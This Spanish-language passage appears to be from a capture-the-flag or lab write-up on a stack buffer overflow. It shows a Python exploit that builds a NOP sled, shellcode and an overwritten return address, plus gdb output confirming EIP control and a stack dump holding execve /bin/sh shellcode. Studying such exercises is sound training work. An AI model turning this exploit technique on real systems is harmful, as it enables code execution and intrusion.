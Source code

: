 ```python
# NOPS (NO Operation CODE Caracteres) Los calculamos Siempre: Multiplicando por offset y restandole shellcode
        nops = "\x90"*(offset-len(shellcode))
 
 # aqui seguimos sobrescribiendo el EIP con AAAA
 #      payload = nops + shellcode + "\x41\x41\x41\x41"      primer prueba payload para comprobar que el exploit funciona correctamente
        payload = nops + shellcode + pack( "<I", 0xbffff78c)  # Segundo payload, para apuntar un poco mas atras de nuestro shellcode en los NOPS

        print(payload)

if __name__ == '__main__':

        bufferOverFlow()
```
Aqui procedemos a hacerle la primera prueba a nuestro exploit.py con el primer payload del exploit.py
```bash
(gdb) r $(python exploit.py)
Starting program: /usr/local/bin/chal $(python exploit.py)

Program received signal SIGSEGV, Segmentation fault.
"0x41414141" in ?? ()
```
Vemos que `seguimos teniendo el contro del EIP`, Perfecto!

Ahora vamos a listar la pila y ver donde esta nuestro SHELLCODE PARA pillar una direccion desde mas atras, en los `NOPS` 
y que cuando se ejecute el `EIP` + la direccion antes de nuestro `SHELLCODE` se ejecute la `/bin/sh`
```bash
(gdb) x/100x $esp-100
0xbffff50c:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff51c:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff52c:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff53c:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff54c:     0x90909090"     0x6850c031      0x68732f2f      0x69622f68
0xbffff55c:     0x89e3896e      0xb0c289c1      0x3180cd0b      0x80cd40c0			nuestro shellcode en litle indian"
0xbffff56c:     0x41414141      0x00000000      0xbffff604      0xbffff610
0xbffff57c:     0xb7feccca      0x00000002      0xbffff604      0xbffff5a4
0xbffff58c:     0x0804a014      0x0804821c      0xb7fce000      0x00000000
0xbffff59c:     0x00000000      0x00000000      0x36fef84f      0x0e617c5f
0xbffff5ac:     0x00000000      0x00000000      0x00000000      0x00000002
0xbffff5bc:     0x08048320      0x00000000      0xb7ff24c0      0xb7e3ba09
0xbffff5cc:     0xb7fff000      0x00000002      0x08048320      0x00000000
0xbffff5dc:     0x08048341      0x0804841d      0x00000002      0xbffff604
0xbffff5ec:     0x08048450      0x080484c0      0xb7fed160      0xbffff5fc
0xbffff5fc:     0x0000001c      0x00000002      0xbffff72f      0xbffff743
0xbffff60c:     0x00000000      0xbffff8b2      0xbffff8c3      0xbffff8d3
0xbffff61c:     0xbffff8e7      0xbffff90d      0xbffff920      0xbffff932
0xbffff62c:     0xbffffe53      0xbffffe5f      0xbffffebd      0xbffffed9
0xbffff63c:     0xbffffee8      0xbffffef1      0xbfffff02      0xbfffff0b
0xbffff64c:     0xbfffff23      0xbfffff2b      0xbfffff40      0xbfffff87
0xbffff65c:     0xbfffffa7      0xbfffffc6      0x00000000      0x00000020
0xbffff66c:     0xb7fdccf0      0x00000021      0xb7fdc000      0x00000010
0xbffff67c:     0x078bfbff      0x00000006      0x00001000      0x00000011
0xbffff68c:     0x00000064      0x00000003      0x08048034      0x00000004
```
Ahora viendo mas o menos por donde queda nuestro `shellcode` procederiamos a apuntar a un poco mas atras en una direccion en la que esten los `NOPS` 
por si el contenido de los caracteres se desplaza por cualquier causa y que luego nos ejecute nuestro `shellcode` como `EIP`(Siguiente Intruccion a Reralizar) 